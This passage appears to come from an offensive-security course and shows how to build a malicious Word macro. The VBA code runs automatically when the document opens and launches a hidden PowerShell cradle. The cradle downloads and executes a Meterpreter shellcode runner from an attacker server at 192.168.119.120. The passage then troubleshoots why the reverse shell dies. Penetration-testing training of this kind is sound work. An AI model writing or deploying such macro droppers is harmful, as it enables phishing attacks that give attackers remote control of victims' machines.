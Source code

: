 > Listing 38 - Multi/handler catches Meterpreter shellcode executed by PowerShell

Now we need to trigger this from a Word macro. However, we won't simply embed the PowerShell code in VBA. Instead, we'll create a cradle that will download our code into memory and execute it.

Here's the code for the download cradle:

```fence
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

> Listing 39 - VBA code calling the PowerShell cradle that executes the shellcode runner

First, we declared a string variable containing the PowerShell invocation of the download cradle through the *Net.WebClient class*. Once the PowerShell script has been downloaded into memory as a string, it then executes using *Invoke-Expression* (IEX). This entire code execution is triggered with the *Shell* command.

Notice that the download cradle references **run.ps1** in the web root of our Kali machine. To execute our code, we'll first copy our PowerShell shellcode runner into the **run.ps1** file on our Kali Apache web server.

Next we'll open Microsoft Word and insert the VBA code from Listing 39 into our macro and execute it.

However, we don't catch a shell in our multi/handler. Let's try to troubleshoot.

First, we know the macro is executing because our Kali machine's Apache logs reveal the GET request for the shellcode runner:

```fence
kali@kali:~$ sudo tail /var/log/apache2/access.log
...
192.168.120.11 - - [08/Jun/2024:05:21:22 -0400] "GET /run.ps1 HTTP/1.1" 200 4202 "-" "-"
```

> Listing 40 - Apache access log showing our run.ps1 script being fetched

On the Windows side, if we use Process Explorer, and we are quick, we might notice that a PowerShell process is being created but then quickly terminates.

The reason for this is fairly straightforward. Our previous VBA shellcode runner continued executing because we never terminated its parent process (Word). However, in this version, our shell dies as soon as the parent PowerShell process terminates. Our shell is essentially being terminated before it even starts.
